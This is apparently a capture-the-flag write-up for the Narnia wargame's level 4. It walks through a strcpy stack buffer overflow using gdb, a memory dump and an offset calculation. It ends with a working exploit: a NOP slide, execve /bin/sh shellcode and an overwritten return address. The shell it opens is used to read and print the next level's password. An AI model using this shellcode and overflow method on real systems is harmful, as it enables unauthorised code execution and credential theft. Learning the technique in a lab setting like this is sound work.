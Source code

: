 # **Let's jump into narnia4!**
-----------------------------------

You start to get use to it ;)) Let's read our code first!
```c
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```

Alright perfect so waht could be new here? 
> the `extern char **environ;` is basically a pointer that point to an env variables!

After reading our code we can find an interesting part, our buffer is sized at 256 and we use a strcpy directly from our args
So if we give him more than 256, strcpy would not mind and copy everything causing an overflow
*(The central part is just setting our environnement to null, for now let's just don't mind it)*

As we did in Narnia2, we do want to understand the binary of what's happening here, so let's just run gdb narnia4
to see all of this in action we're gonna run it with 256 char and a deadbeef at the end
As we did the last time, we're gonna find our deadbeef by adding or removing chars

```bash
run `python -c 'print "R"*256 + "\xef\xbe\xad\xde"'`
```
And then we add like 6char `"R"*262` and we see f700dead
so let's push two over char and we see our deadbeef!! we have our breakpoint!
so let's re run this function and type in the command to get all the memory dump
`x/250x $esp`
I've cut the stack to the part we're interested in: where all our buffers data appear

```
----------------------------------cutted----------------------------------
0xffffd760:     0x8ab5511f      0x3a1579f1      0x695af69f      0x00363836
0xffffd770:     0x00000000      0x00000000      0x00000000      0x2f000000
0xffffd780:     0x6e72616e      0x6e2f6169      0x696e7261      0x52003461
0xffffd790:     0x52525252      0x52525252      0x52525252      0x52525252
0xffffd7a0:     0x52525252      0x52525252      0x52525252      0x52525252
0xffffd7b0:     0x52525252      0x52525252      0x52525252      0x52525252
0xffffd7c0:     0x52525252      0x52525252      0x52525252      0x52525252
0xffffd7d0:     0x52525252      0x52525252      0x52525252      0x52525252
0xffffd7e0:     0x52525252      0x52525252      0x52525252      0x52525252
0xffffd7f0:     0x52525252      0x52525252      0x52525252      0x52525252
0xffffd800:     0x52525252      0x52525252      0x52525252      0x52525252
0xffffd810:     0x52525252      0x52525252      0x52525252      0x52525252
0xffffd820:     0x52525252      0x52525252      0x52525252      0x52525252
0xffffd830:     0x52525252      0x52525252      0x52525252      0x52525252
0xffffd840:     0x52525252      0x52525252      0x52525252      0x52525252
---Type <return> to continue, or q <return> to quit---
0xffffd850:     0x52525252      0x52525252      0x52525252      0x52525252
0xffffd860:     0x52525252      0x52525252      0x52525252      0x52525252
0xffffd870:     0x52525252      0x52525252      0x52525252      0x52525252
0xffffd880:     0x52525252      0x52525252      0x52525252      0x52525252
0xffffd890:     0x52525252      0xef525252      0x00deadbe      0x00000000
0xffffd8a0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd8b0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd8c0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd8d0:     0x00000000      0x00000000      0x00000000      0x00000000
----------------------------------cutted----------------------------------
```

So we can see that our buffer start at 0xffffd790 ! 
Now it's time to choose a byte that we're gonna use as our return address, as long as they are fulfilled with our data, take the one you prefer, would be 0xffffd870 in my case

## Let's grab this Password!!
So this is the exact same way as we did to narnia2 ( pretty weird honestly i didn't see any change except the size of the buffer)
Let's once again take our shellcode.
It's time for some math --> 264bytes - 25bytes of shellcode = 239 NOP slide! (\x90)
+ 4Return Adress bytes (don't forget to convert them to little endian) at the end and we're done

```bash
run `python -c 'print "\x90"*239 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x70\xd8\xff\xff"'`
```

Now that we see that it works let's just use this command in our real env

```bash
./narnia4 `python -c 'print "\x90"*239 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x20\xd8\xff\xff"'`
```

We do have a new shell so let's just do a simple cat:
cat /etc/narnia_pass/narnia5     

**faimahchiy**

Well done! it wasn't that hard bc we've already done such a buffer overflow!
Let's jump into the next one


